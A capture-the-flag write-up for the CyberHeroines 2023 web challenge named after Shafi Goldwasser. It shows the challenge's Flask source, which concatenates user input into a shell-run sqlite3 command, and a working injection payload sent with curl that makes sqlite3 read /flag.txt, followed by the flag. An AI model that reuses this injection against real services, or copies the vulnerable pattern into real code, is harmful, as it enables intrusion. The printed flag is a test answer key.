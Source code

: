 # CyberHeroines 2023

## Shafrira Goldwasser

> [Shafrira Goldwasser](https://en.wikipedia.org/wiki/Shafi_Goldwasser) (Hebrew: שפרירה גולדווסר; born 1959) is an Israeli-American computer scientist and winner of the Turing Award in 2012. She is the RSA Professor of Electrical Engineering and Computer Science at Massachusetts Institute of Technology; a professor of mathematical sciences at the Weizmann Institute of Science, Israel; the director of the Simons Institute for the Theory of Computing at the University of California, Berkeley; and co-founder and chief scientist of Duality Technologies.
> 
> Chal: I asked ChatGPT to make this [webapp](https://cyberheroines-web-srv4.chals.io/) but I couldnt prove it was secure. In honor of [this Turing Award winner](https://www.youtube.com/watch?v=DfJ8W49R0rI), prove it is insecure by returning the flag.
>
>  Author: [TJ](https://www.tjoconnor.org/)
>
> [`webapp.zip`](webapp.zip)

Tags: _web_

## Solution
We get a small webapp with source code. Inspecting the source code we find:

```python
from flask import Flask, render_template, request
import sqlite3
import subprocess

app = Flask(__name__)

# Database connection
#DATABASE = "database.db"

def query_database(name):
    query = 'sqlite3 database.db "SELECT biography FROM cyberheroines WHERE name=\'' + str(name) +'\'\"'
    result = subprocess.check_output(query, shell=True, text=True)
    return result


@app.route("/", methods=["GET", "POST"])
def index():
    if request.method == "POST":
        selected_name = request.form.get("heroine_name")
        biography = query_database(selected_name)
        return render_template("index.html", biography=biography)
    return render_template("index.html", biography="")

if __name__ == "__main__":
    app.run(debug=False,host='0.0.0.0')
```

The function `query_database` does a basic query to a sqlite3 database. At the first glance this looks vulnerable to `SQLI` and it is. I enumerated the database but didn't find anything until I noticed that the flag is present as file in the delivery.

And even more important, the query is not done via a `api` but by creating a `process` and calling `sqlite3` directly. So this looks more like command injection again than `sqli`.

After some research if found that `sqlite3` allows to call shell commands by using `.shell` parameter. And better yet, we can specify commands to be run with the `-cmd` commandline argument. After some trial and error I found this working payload `"heroine_name='\" -cmd \".system cat /flag.txt'"`.

```
curl -X POST http://ec2-3-144-228-78.us-east-2.compute.amazonaws.com:6264/ -d "heroine_name='\" -cmd \".system cat /flag.txt'"
...
<div class="biography">
            <h2>Biography:</h2>
            <p>chctf{CH4ng3d_h0w_w3_th1Nk_of_pr00f$}
</p>
        </div>
...
```

Flag `chctf{CH4ng3d_h0w_w3_th1Nk_of_pr00f$}`